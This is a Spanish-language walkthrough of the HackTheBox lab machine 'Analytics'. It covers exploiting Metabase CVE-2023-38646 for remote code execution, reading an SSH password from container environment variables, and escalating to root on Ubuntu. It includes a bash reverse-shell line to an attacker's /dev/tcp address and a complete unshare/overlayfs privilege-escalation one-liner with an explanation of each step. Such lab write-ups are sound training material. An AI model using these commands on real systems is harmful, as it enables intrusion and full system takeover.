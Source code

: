 # Analytics

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo enumeración web basica y busqueda de exploits para ciertas versiones de diversas cosas que veremos en la actividad.

- Plataforma: [HackTheBox](https://app.hackthebox.com/home)
- Dificultad: Easy
- OS: Linux
- IP: 10.10.11.233

- Comenzamos escaneando el objetivo, los puertos 22 y 80 están expuestos:
~~~ bash 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.233
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/613ad81c-f162-468e-b0f9-1d120b39975c)

- Añadimos **10.10.11.233 analytical.htb** a /etc/hosts y podemos ver una pagina por el puerto 80
- Al enumerar la pagina, nos encontramos con un subdominio en http://data.analytical.htb:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/17a42111-3161-468d-8227-2052895d5a2d)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/e2d15162-9fba-4c16-a524-b1400ce402af)

- También encontré el [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) que según su descripción, permite omitir el login a través de una vulnerabilidad en la api de Metabase
- El CVE nos indica que debemos buscar un **setup-token** en la ruta http://vulnerablehost.com/api/session/properties
 
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b07035b-5a06-4183-bbb1-1b6106820cd5)

- Perfecto, ahora utilizamos el [PoC del exploit](https://github.com/securezeron/CVE-2023-38646?source=post_page-----bd3421cba76d--------------------------------) creado por securezeron para llevar a cabo la explotación con los parametros requeridos
- Tras probar varias veces, el PoC no me envió una conexión inversa, así que decidí revisar el codigo, y cambiar el payload

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c9c14f20-4e6f-4f74-b1ec-5e5c9242178f)

- Emplea un reverse shell encodeado en base64, por lo que opté por enviarlo por una solicitud hacia el endpoint ubicado en **/api/setup/validate**, mas en esta parte:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bb724431-cd72-4681-9480-33c8ce550d44)

Yo prefiero utilizar 
~~~ bash 
bash -c "bash -i >&/dev/tcp/<ip>/<port 0>&1>"
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b455954-d0eb-4581-871e-ca2e09ef1c18)

- Y estamos dentro :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0b5c1204-5002-4cc9-93ec-087375f8058d)

- Después de enumerar un poco, podemos descubrir que nos encontramos dentro de un docker:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/09fdd2c5-5ee5-4569-a0dd-474e78ccaace)

- Por lo que decidí revisar algunas variables de entorno, y encontramos una contraseña, probablemente de ssh:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b451245a-c596-4740-a012-24bfd65c5a7c)

- Y en efecto que eran de ssh, ahora tenemos una shell mucho mas estable:

 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/70a88eb6-22a8-41d5-b2a3-5ec1ac98a25d)

  - Primera flag :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/55354378-feea-4495-b996-13a22d06b0a8)


***
<h3>PrivEsc</h3>

- Después de enumerar durante buen rato, me perdí al no encontrar posibles verctores de ataque, hasta que decidí mirar la versión del kernel y del sistema operativo

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/6c095b34-77bb-42b2-8f3e-a6befcd69847)

  - Del kernel no encontré nada, pero si encontré un [CVE para la versión de ubuntu](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c)
  - Dado que es un exploit binario y requiero compilarlo, me di cuenta que la maquina victima no tiene gcc instalado, así que lo compilé en mi maquina y lo compartí por un servidor de python3

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1071f439-186e-4232-a04f-a1dc4eb31d7a)

- Y somos root:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f529e177-aca6-4e4f-a41e-1df31901ddc5)

**Extra**

- Encontré otros [CVE-2023-2640 & CVE-2023-32629 en un foro de Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=53261) donde se emplea una tecnica alterna para escalar a root a través de la creación de un entorno aislado dentro del equipo, con unshare, con el cual cambia el uid a uno perteneciente a root:

~~~ bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
~~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa089137-e5e2-448f-b17f-e8d44e02b9e8)

**1- unshare -rm sh -c "...":**
Este comando utiliza la utilidad unshare para crear un nuevo espacio de nombres <namespace> con opciones -rm. Las opciones significan lo siguiente:
- r: Propaga una jerarquía de directorios nueva (root).
- m: Propaga un punto de montaje nuevo.
- sh -c "...": Ejecuta el shell sh en el nuevo espacio de nombres y ejecuta los comandos contenidos entre las comillas dobles "...".

2- mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3; mount - overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'":

Este comando realiza una serie de operaciones en el nuevo espacio de nombres creado:
- mkdir l u w m: Crea los directorios l, u, w, y m.
- cp /u*/b*/p*3 l/: Copia archivos que coincidan con el patrón /u*/b*/p*3 al directorio l.
- setcap cap_setuid+eip l/python3: Establece capacidades especiales en el archivo l/python3, que permiten la ejecución con capacidades adicionales (en este caso, la capacidad cap_setuid y cap_eip).
- mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: Monta un sistema de archivos overlay en el directorio m. Esto crea una capa que combina los archivos en l y u, donde l es la capa inferior (lowerdir), u es la capa superior (upperdir), y w es el directorio de trabajo (workdir). Esto permite la modificación de archivos sin afectar la capa inferior.
- touch m/*: Crea archivos vacíos en la capa combinada m.
- u/python3 -c 'import os;os.setuid(0);os.system("id")': Ejecuta el intérprete de Python (python3) que se encuentra en la capa superior u, y en ese intérprete, ejecuta un script que cambia el UID al de root (0) y luego ejecuta el comando bash para crear un entorno interactivo con las propiedades de root.
- rm -rf l u w m: Este comando solo elimina recursivamente los directorios l, u, w, y m
